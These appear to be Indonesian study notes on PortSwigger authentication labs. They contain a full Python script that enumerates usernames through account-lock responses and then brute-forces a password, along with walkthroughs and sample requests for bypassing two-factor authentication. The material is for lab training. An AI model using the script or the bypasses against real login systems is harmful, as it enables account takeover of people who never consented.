




##### Tutorial

1. Tiga kali gagal login mengunci akun; percobaan berikutnya mengembalikan `You have made too many incorrect login attempts`, sedangkan username tidak dikenal tetap mengembalikan error normal.
2. Fase 1: hantam tiap username kandidat beberapa kali berturut-turut. Username yang responsnya memuat pesan lock adalah yang valid.
3. Tunggu lock reset (~1 menit), lalu brute-force password user itu. Respons tanpa pesan error (atau 302) adalah password benar.
4. Login dan buka **My account**.

**Script:**

```python
#!/usr/bin/env python3
"""
Username enumeration via account lock (PortSwigger lab solver).

Lab logic:
  - 3 failed logins lock an account; further attempts against that account return
    "You have made too many incorrect login attempts" while unknown usernames
    keep returning the normal "Invalid username or password".
  - So hammer each candidate username several times in a row (Burp calls this a
    cluster bomb with Null payloads). The username whose responses contain the
    lock message is the valid one.
  - Wait for the lock to reset, then brute-force that user's password. A
    response without any error message (or a 302) is the correct password.

No hardcoded usernames, passwords or error strings — all come from files/flags.

Usage:
  python3 Username-enumeration-via-account-lock.py \
      --url https://<id>.web-security-academy.net/login \
      --cookie "session=..." \
      --usernames usernames.txt --passwords passwords.txt

  ... --repeats 5          # attempts per username (default 5)
  ... --wait 65            # seconds to wait for the lock to reset (default 65)
  ... --verbose
  ... --csv attempts.csv
  ... --proxy http://127.0.0.1:8080
"""
from __future__ import annotations

import argparse
import csv
import re
import sys
import time
from pathlib import Path
from urllib.parse import urlparse

try:
    import requests
    from requests import RequestException
except ImportError:
    print('error: pip3 install requests', file=sys.stderr)
    sys.exit(2)


def load_list(path: Path) -> list[str]:
    out, seen = [], set()
    for line in path.read_text(encoding='utf-8', errors='replace').splitlines():
        s = line.strip()
        if s and s not in seen:
            seen.add(s)
            out.append(s)
    return out


def norm(t: str) -> str:
    return re.sub(r'\s+', ' ', t or '').strip().lower()


def main() -> int:
    ap = argparse.ArgumentParser(
        description='Username enumeration via account lock.')
    ap.add_argument('--url', required=True)
    ap.add_argument('--cookie', default='')
    ap.add_argument('--usernames', default='usernames.txt')
    ap.add_argument('--passwords', default='passwords.txt')
    ap.add_argument('--user-field', default='username')
    ap.add_argument('--pass-field', default='password')
    ap.add_argument('--fixed-password', default='example',
                    help='password used while hammering usernames (default: example)')
    ap.add_argument('--repeats', type=int, default=5,
                    help='attempts per username (default 5)')
    ap.add_argument('--wait', type=float, default=65.0,
                    help='seconds to wait for the lock to reset (default 65)')
    ap.add_argument('--lock-regex', default=r'too many incorrect login attempts',
                    help='regex marking a locked account')
    ap.add_argument('--invalid-regex', default=r'invalid username or password',
                    help='regex marking a normal failed login')
    ap.add_argument('--user-agent', default='Mozilla/5.0 (AccountLock)')
    ap.add_argument('--proxy', default='')
    ap.add_argument('--delay', type=float, default=0.0)
    ap.add_argument('--timeout', type=float, default=20.0)
    ap.add_argument('--insecure', action='store_true')
    ap.add_argument('--all', action='store_true',
                    help='do not stop at the first valid username')
    ap.add_argument('--verbose', action='store_true')
    ap.add_argument('--csv', default='')
    args = ap.parse_args()

    usernames = load_list(Path(args.usernames))
    passwords = load_list(Path(args.passwords))
    if not usernames or not passwords:
        print('error: username/password wordlist is empty', file=sys.stderr)
        return 2

    s = requests.Session()
    s.headers.update({
        'User-Agent': args.user_agent,
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.9',
        'Content-Type': 'application/x-www-form-urlencoded',
    })
    if args.cookie:
        s.headers['Cookie'] = args.cookie

    p = urlparse(args.url)
    vhost = f'{p.scheme}://{p.netloc}'
    s.headers['Origin'] = vhost
    s.headers['Referer'] = vhost + '/login'

    proxies = {'http': args.proxy, 'https': args.proxy} if args.proxy else None
    verify = not args.insecure
    lock_re = re.compile(args.lock_regex, re.I)
    invalid_re = re.compile(args.invalid_regex, re.I)

    rows: list[tuple[str, str, str, int, str]] = []

    def post(user: str, pwd: str):
        try:
            r = s.post(args.url,
                       data={args.user_field: user, args.pass_field: pwd},
                       timeout=args.timeout, allow_redirects=False,
                       proxies=proxies, verify=verify)
        except RequestException as e:
            print(f'[!] request error ({user}) -> {e}', file=sys.stderr)
            time.sleep(1)
            return None
        if args.delay:
            time.sleep(args.delay)
        return r

    # ---------- PHASE 1: find the lockable (valid) username ----------
    print(f'[*] PHASE 1: {len(usernames)} usernames x {args.repeats} attempts '
          f'(fixed pw="{args.fixed_password}")', file=sys.stderr)
    valid: list[str] = []
    for i, u in enumerate(usernames, 1):
        locked = False
        for _ in range(args.repeats):
            r = post(u, args.fixed_password)
            if r is None:
                continue
            body = r.text or ''
            rows.append(('user', u, args.fixed_password, r.status_code,
                         'lock' if lock_re.search(norm(body)) else ''))
            if lock_re.search(norm(body)):
                locked = True
                break
        if locked:
            print(f'[+] LOCKED (valid username): {u}', file=sys.stderr)
            valid.append(u)
            if not args.all:
                break
        elif i % 10 == 0:
            print(f'[*] {i}/{len(usernames)}', file=sys.stderr)

    if not valid:
        print('[-] no lockable username found', file=sys.stderr)
        if args.csv:
            with open(args.csv, 'w', newline='', encoding='utf-8') as f:
                w = csv.writer(f)
                w.writerow(('phase', 'user', 'pass', 'status', 'note'))
                w.writerows(rows)
        return 1

    # ---------- wait for the lock to reset ----------
    print(f'[*] waiting {args.wait:.0f}s for the account lock to reset',
          file=sys.stderr)
    time.sleep(args.wait)

    # ---------- PHASE 2: crack the password ----------
    print(f'[*] PHASE 2: {len(passwords)} passwords for {valid}', file=sys.stderr)
    hits: list[tuple[str, str, int]] = []
    for u in valid:
        for pw in passwords:
            r = post(u, pw)
            if r is None:
                continue
            body = r.text or ''
            status = r.status_code
            rows.append(('pass', u, pw, status,
                         'lock' if lock_re.search(norm(body)) else ''))
            n = norm(body)
            if status in (301, 302, 303, 307, 308):
                print(f'[+] HIT {u}:{pw} status={status}', file=sys.stderr)
                hits.append((u, pw, status))
                break
            if not invalid_re.search(n) and not lock_re.search(n):
                print(f'[+] HIT {u}:{pw} status={status} (no error message)',
                      file=sys.stderr)
                hits.append((u, pw, status))
                break

    if args.csv:
        with open(args.csv, 'w', newline='', encoding='utf-8') as f:
            w = csv.writer(f)
            w.writerow(('phase', 'user', 'pass', 'status', 'note'))
            w.writerows(rows)
        print(f'[*] CSV: {args.csv}', file=sys.stderr)

    if hits:
        for u, pw, st in hits:
            print(f'HIT {u}:{pw} ({st})')
        return 0
    print('[-] password not found', file=sys.stderr)
    return 1


if __name__ == '__main__':
    sys.exit(main())
```

**Cara menjalankan:**

```bash
python3 Username-enumeration-via-account-lock.py --url https://<id>.web-security-academy.net/login --usernames usernames.txt --passwords passwords.txt --cookie "session=..."
```

##### Reference

<details>
<summary>6. Authentication Vulnerabilities - Lab #7 Username enumeration via account lock | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=fT31xo1cUoM
Purpose: Lab ini rentan terhadap enumerasi username. Lab memakai account locking, tetapi ini mengandung kelemahan logika. Untuk menyelesaikan lab, kami enumerasi username valid, brute-force kata sandi pengguna tersebut, lalu akses halaman akunnya.

</details>

<details>
<summary>7. Authentication Vulnerabilities - Lab #6 Broken brute-force protection, IP block | Short Version — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=BoA-ms_h3HY
Purpose: Video ini menunjukkan solusi lab "Username enumeration via account lock" dari Web Security Academy (PortSwigger)

</details>

</details>

### User rate limiting

Cara lain situs mencegah brute-force adalah lewat user rate limiting. Dalam kasus ini, membuat terlalu banyak permintaan login dalam waktu singkat membuat alamat IP kamu diblokir. Biasanya, IP hanya bisa dibuka blokirnya dengan salah satu cara berikut:

- Otomatis setelah periode waktu tertentu berlalu
- Manual oleh administrator
- Manual oleh pengguna setelah berhasil menyelesaikan CAPTCHA

User rate limiting kadang lebih dipilih dibanding account locking karena lebih kecil kemungkinannya memicu enumerasi username dan serangan denial of service. Namun tetap tidak sepenuhnya aman. Seperti contoh yang kita lihat di lab sebelumnya, ada beberapa cara penyerang memanipulasi IP yang tampak untuk melewati blokir.

Karena batas didasarkan pada laju permintaan HTTP yang dikirim dari alamat IP pengguna, kadang pertahanan ini juga bisa dilewati jika kamu bisa tahu cara menebak beberapa kata sandi dalam satu permintaan.

### HTTP basic authentication

Meskipun cukup lama, kesederhanaan dan kemudahan implementasinya membuat HTTP basic authentication kadang masih terlihat dipakai. Pada HTTP basic authentication, klien menerima token autentikasi dari server, yang dibangun dengan menggabungkan username dan kata sandi, lalu mengodenya dalam Base64. Token ini disimpan dan dikelola browser, yang otomatis menambahkannya ke header `Authorization` setiap permintaan berikutnya seperti berikut:

```
Authorization: Basic base64(username:password)
```

### HTTP basic authentication - Lanjutan

Beberapa alasan membuat ini umumnya tidak dianggap metode autentikasi yang aman. Pertama, ini melibatkan pengiriman berulang kredensial login pengguna di setiap permintaan. Kecuali situs juga menerapkan HSTS, kredensial pengguna terbuka untuk ditangkap dalam serangan man-in-the-middle.

Selain itu, implementasi HTTP basic authentication sering tidak mendukung proteksi brute-force. Karena token hanya terdiri dari nilai statis, ini membuatnya rentan terhadap brute-force.

HTTP basic authentication juga sangat rentan terhadap eksploitasi terkait sesi, terutama CSRF, yang tidak dilindungi sendiri olehnya.

Dalam beberapa kasus, mengeksploitasi HTTP basic authentication yang rentan mungkin hanya memberi penyerang akses ke halaman yang tampaknya tidak menarik. Namun, selain memberi permukaan serangan tambahan, kredensial yang terbuka dengan cara ini mungkin bisa dipakai ulang di konteks lain yang lebih rahasia.

## Kerentanan pada autentikasi multi-faktor

Di bagian ini, kita akan melihat beberapa kerentanan yang bisa terjadi pada mekanisme autentikasi multi-faktor. Kami juga menyediakan beberapa lab interaktif untuk menunjukkan cara mengeksploitasi kerentanan ini dalam autentikasi multi-faktor.

Banyak situs mengandalkan autentikasi satu faktor menggunakan kata sandi untuk mengautentikasi pengguna. Namun, sebagian mewajibkan pengguna membuktikan identitas memakai beberapa faktor autentikasi.

## Kerentanan pada autentikasi multi-faktor - Lanjutan

Memverifikasi faktor biometrik tidak praktis untuk kebanyakan situs. Namun, makin umum melihat autentikasi dua faktor (2FA) wajib maupun opsional berdasarkan *sesuatu yang kamu tahu* dan *sesuatu yang kamu punya*. Ini biasanya mengharuskan pengguna memasukkan kata sandi tradisional dan kode verifikasi sementara dari perangkat fisik out-of-band yang mereka miliki.

Walau kadang mungkin bagi penyerang mendapatkan satu faktor berbasis pengetahuan, seperti kata sandi, kemampuan mendapatkan faktor lain dari sumber out-of-band secara bersamaan jauh lebih kecil. Karena itu, autentikasi dua faktor terbukti lebih aman dibanding autentikasi satu faktor. Namun, seperti semua langkah keamanan, ini hanya seaman implementasinya. Autentikasi dua faktor yang diimplementasikan dengan buruk bisa dikalahkan, bahkan dilewati sepenuhnya, sama seperti autentikasi satu faktor.

Perlu dicatat juga bahwa manfaat penuh autentikasi multi-faktor hanya tercapai dengan memverifikasi beberapa faktor *berbeda*. Memverifikasi faktor yang sama dalam dua cara berbeda bukanlah autentikasi dua faktor sejati. Autentikasi 2FA berbasis email adalah satu contohnya. Meski pengguna harus memberikan kata sandi dan kode verifikasi, mengakses kode hanya mengandalkan pengetahuan kredensial login akun email mereka. Jadi, faktor autentikasi pengetahuan hanya diverifikasi dua kali.

### Token autentikasi dua faktor

Kode verifikasi biasanya dibaca pengguna dari perangkat fisik semacam itu. Banyak situs keamanan tinggi sekarang menyediakan pengguna perangkat khusus untuk tujuan ini, seperti token RSA atau perangkat keypad yang mungkin kamu pakai untuk mengakses perbankan online atau laptop kerja. Selain dibuat khusus untuk keamanan, perangkat khusus ini juga unggul karena menghasilkan kode verifikasi langsung. Situs juga umum memakai aplikasi seluler khusus, seperti Google Authenticator, dengan alasan yang sama.

Di sisi lain, sebagian situs mengirim kode verifikasi ke ponsel pengguna sebagai pesan teks. Meskipun secara teknis masih memverifikasi faktor "sesuatu yang kamu punya", ini terbuka untuk penyalahgunaan. Pertama, kode dikirim melalui SMS alih-alih dihasilkan perangkat itu sendiri. Ini menciptakan potensi kode dicegat. Ada juga risiko SIM swapping, di mana penyerang mendapat kartu SIM secara curang dengan nomor telepon korban. Penyerang lalu akan menerima semua pesan SMS yang dikirim ke korban, termasuk yang berisi kode verifikasi.

### Melewati autentikasi dua faktor

Kadang implementasi autentikasi dua faktor cacat sampai bisa dilewati sepenuhnya.

Jika pengguna pertama diminta memasukkan kata sandi, lalu diminta memasukkan kode verifikasi di halaman terpisah, pengguna efektif dalam keadaan "sudah login" sebelum memasukkan kode verifikasi. Dalam kasus ini, patut diuji apakah kamu bisa langsung melompat ke halaman "hanya untuk yang sudah login" setelah menyelesaikan langkah autentikasi pertama. Sesekali, kamu akan menemukan situs tidak benar-benar memeriksa apakah kamu menyelesaikan langkah kedua sebelum memuat halaman.

##### Lab: 2FA simple bypass

Autentikasi dua faktor lab ini bisa dilewati. Kamu sudah memiliki username dan kata sandi valid, tetapi tidak memiliki akses ke kode verifikasi 2FA pengguna.

<details>
<summary>Lab details, screenshots & walkthrough 0.6</summary>

Untuk menyelesaikan lab, akses halaman akun Carlos.

- Kredensialmu: `wiener:peter`
- Kredensial korban: `carlos:montoya`

**Screenshots:**











##### Tutorial

1. Login dengan `wiener:peter`. Setelah langkah pertama kamu tiba di halaman verifikasi 2FA — efektif sudah terautentikasi.
2. Sebelum memasukkan kode 2FA, langsung buka halaman yang hanya untuk yang sudah login seperti `/my-account?id=carlos`. Server tidak memeriksa ulang faktor kedua, jadi halaman akun Carlos termuat.
3. Lab solved begitu halaman akun Carlos tampil.

##### Reference

<details>
<summary>8. Authentication Vulnerabilities - Lab #2 2FA simple bypass | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=2WpBVanEn3M
Purpose: Autentikasi dua faktor lab ini bisa dilewati. Kamu sudah memiliki username dan kata sandi valid, tetapi tidak memiliki akses ke kode verifikasi 2FA pengguna. Untuk menyelesaikan lab, kami mengakses halaman akun Carlos.

</details>

<details>
<summary>9. 2FA simple bypass| Short Version — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=V-Ak7kiOQI4
Purpose: Video ini menunjukkan solusi lab "2FA simple Bypass" dari Web Security Academy (PortSwigger)

</details>

</details>

### Logika verifikasi dua faktor yang cacat

Kadang logika cacat pada autentikasi dua faktor berarti setelah pengguna menyelesaikan langkah login awal, situs tidak memverifikasi memadai bahwa pengguna yang sama yang menyelesaikan langkah kedua.

Contohnya, pengguna login dengan kredensial normal mereka di langkah pertama seperti berikut:

```
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```

Mereka lalu diberi cookie yang terkait akun mereka, sebelum dibawa ke langkah kedua proses login:

```
HTTP/1.1 200 OK
Set-Cookie: account=carlos

GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```

Saat mengirim kode verifikasi, permintaan memakai cookie ini untuk menentukan akun mana yang sedang diakses pengguna:

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```

Dalam kasus ini, penyerang bisa login memakai kredensial mereka sendiri tetapi lalu mengubah nilai cookie `account` ke username sembarang saat mengirim kode verifikasi.

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```

Ini sangat berbahaya jika penyerang lalu bisa brute-force kode verifikasi karena ini memungkinkan mereka login ke akun pengguna sembarang berdasarkan username saja. Mereka tidak perlu pernah tahu kata sandi pengguna.

##### Lab: 2FA broken logic

Autentikasi dua faktor lab ini rentan karena logikanya cacat. Untuk menyelesaikan lab, akses halaman akun Carlos.

<details>
<summary>Lab details, screenshots & walkthrough 0.7</summary>

Untuk menyelesaikan lab, akses halaman akun Carlos.

- Kredensialmu: `wiener:peter`
- Username korban: `carlos`

**Screenshots:**




